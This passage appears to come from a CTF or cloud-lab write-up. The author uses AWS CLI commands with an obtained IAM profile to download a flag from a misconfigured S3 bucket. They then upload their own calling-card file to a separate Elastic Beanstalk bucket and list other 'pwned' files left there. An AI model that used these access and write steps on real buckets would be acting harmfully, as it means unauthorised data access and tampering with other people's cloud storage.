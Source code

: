 It appears that `congratulations.txt` doesn’t exist, maybe it has been removed, as the bucket has edit access that can allow any user to remove or add files. But no worries, as we have already followed the same intended solution, we can just get the `flag.txt` file:

```bash
┌──(root㉿kali)-[/opt/enumerate-iam]
└─$  aws s3api get-object --bucket geolocation-pocfiles --key flag.txt flag.txt --profile iam

{
"AcceptRanges": "bytes",
"LastModified": "2024-01-29T13:53:40+00:00",
"ContentLength": 53,
"ETag": "\"42d9cca424a87c68c3bf2cdaf96132a7\"",
"VersionId": "a7nrRagqb8XxKXcIo6uCku0JFE7J9i9U",
"ContentType": "text/plain",
"ServerSideEncryption": "AES256",
"Metadata": {}
}

┌──(root㉿kali)-[/opt/enumerate-iam]
└─$ cat flag.txt
FLAG{dwaidiwadnaidnaubuybfreijjjjjjjinfniernniwnfin}                        
```

I have also added a file to the bucket.

```bash
──(root㉿kali)-[/opt/enumerate-iam]
└─$ cat ItsFading.txt 
X: @ItsFadinG_
LinkedIn: muhammadadel14

┌──(root㉿kali)-[/opt/enumerate-iam]
└─$ aws s3api put-object --bucket elasticbeanstalk-us-west-2-094222047775  --key ItsFading.txt --body ItsFading.txt --profile iam
{
    "ETag": "\"fef1f3f060abea9b61991ad85c07442d\"",
    "ServerSideEncryption": "AES256"
}
                                                                                          
┌──(root㉿kali)-[/opt/enumerate-iam]
└─$ aws s3 ls s3://elasticbeanstalk-us-west-2-094222047775 --recursive --human-readable --summarize --profile iam                
2024-09-05 20:41:45   39 Bytes ItsFading.txt
2022-03-22 19:06:59    1.9 KiB Misconfiguration of Misconfiguration task lol - https://t.me/lasagnahowto , https://uvicorn.github.io <- writeup here
2023-09-12 05:40:12    9 Bytes hainv15.txt
2023-07-18 20:56:23  279 Bytes pwned.txt

Total Objects: 4
   Total Size: 2.2 KiB
```

Follow me there, and don’t delete my file ::)
